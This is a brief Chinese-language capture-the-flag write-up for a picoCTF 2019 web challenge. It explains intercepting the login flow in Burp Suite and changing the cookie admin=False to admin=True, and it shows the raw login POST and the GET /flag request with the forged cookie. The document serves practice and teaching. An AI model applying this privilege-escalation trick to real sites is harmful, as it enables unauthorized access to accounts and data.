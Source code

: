 使用burpsuite可以看但有重定向的过程，所以第一个包放过，抓到第二个包，将admin=False改为admin=True

第一次发包：
POST /problem/21895/login HTTP/1.1
Host: 2019shell1.picoctf.com
Connection: close
Content-Length: 31
Cache-Control: max-age=0
Origin: https://2019shell1.picoctf.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: same-origin
Referer: https://2019shell1.picoctf.com/problem/21895/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.2.1422344254.155643409; _gid=GA1.2.39760068.156123219; _gat_gtag_UA_967658343_4=1

user=logon&password=



第二次发包：
GET /flag HTTP/1.1
Host: 2019shell1.picoctf.com
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: same-origin
Referer: https://2019shell1.picoctf.com/problem/21895/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.2.1422344254.155643409; _gid=GA1.2.39760068.156123219; _gat_gtag_UA_12348343_4=1; password=; username=logon; admin=True

